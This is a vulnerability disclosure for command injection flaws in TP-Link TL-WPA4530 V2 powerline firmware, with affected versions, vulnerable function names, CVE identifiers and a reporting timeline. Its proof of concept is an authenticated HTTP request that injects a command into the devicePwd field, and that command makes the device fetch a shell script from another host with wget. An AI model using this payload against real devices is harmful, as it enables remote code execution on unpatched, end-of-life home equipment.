

# TP-Link TL-WPA4530 V2 Vulnerability

Several command injection vulnerabilities are found in the latest version of TL-WPA4530 V2 firmware

## Vulnerability Description

* Reference Firmware: [URL](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
* Binary Path: /usr/bin/httpd
* Entry Url: /admin/powerline
* Affected Versions
  * [TL-WPA4530 V2 (EU)_170406](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
  * [TL-WPA4530 V2 (EU)_161115](https://static.tp-link.com/TL-WPA4530(EU)_V2_161115.zip)

There is a command injection vulnerability in function `_httpRpmPlcDeviceAdd` and `_httpRpmPlcDeviceRemove`. After authentication, an attacker can set `devicePwd` or `key` field in requests to launch a remote-code-execution attack.




## PoC

PoC for triggering `_httpRpmPlcDeviceAdd`

```
POST /admin/powerline?form=plc_add HTTP/1.1
Host: 192.168.100.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.100.2
Connection: close
Referer: http://192.168.100.2/
Cookie: Authorization=XXXXXXX

xxxxxxxxxxxxxxxxxxxxxxxxxx;wget http://192.168.100.254:8000/net.sh;
```

## Disclosure

* 2023-03-28: Report to TP-Link
* 2023-04-14: TP-Link responses but WPA4530 V2 is EOL model, which is not maintained
* 2023-04-15: Report to mitre
* 2023-05-17: CVE-2023-31700 and CVE-2023-31701 assigned
